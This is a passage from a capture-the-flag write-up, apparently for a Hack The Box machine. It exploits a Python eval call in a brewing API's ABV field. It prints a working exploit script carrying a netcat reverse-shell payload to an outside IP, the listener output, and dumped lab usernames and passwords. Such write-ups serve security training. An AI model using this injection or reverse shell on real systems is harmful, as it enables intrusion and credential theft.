 The part the handles the ABV value is a python eval function. This tells me that if I can figure out a way to pass some input to that then I could get a shell on the system.
```
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
else:
    create_brew(request.json)
    return None, 201
```
Now the python script from earlier does exactly that. It generates an api token for me and then sends a POST request to create a new brew and in that request is the ABV value which I can modify in the python script with a reverse shell. I removed some of the excess code.
```
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('ebachman', 'llJ77D8QFkLPQB'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)

brew_dict = {}
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.39 9999 >/tmp/f')"
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
```
I set up my listener and then ran the python script and got a reverse shell
```
# nc -lvnp 9999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.110.
Ncat: Connection from 10.10.10.110:43285.
/bin/sh: can't access tty; job control turned off
/opt/app # 
```
First thing I did was run a ```whoami``` and when I saw I was root I thought I was done. Soon I releaized that was not the case when I went to grab the user and root flags but both of them were not there. I was confused so I ran ```LinEnum.sh``` to see if it would find anything and sure enough it finds that I am in a Docker Container. I spent a while trying to figure out how to break out of the docker container with no luck and realized this was most likely not the solution and looked elsewhere. I went back to the github page and saw the ```dbtest.py``` script that interacts with the sql database so it gave me the idea to do the same with my own python script. First I wrote one to list all of the tables in the database and there was a ```user``` database and then I wrote another one to read the contents of that table. I used a python SimpleHTTPServer to copy the files over to the box. The credentials I got from the table are below
```
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```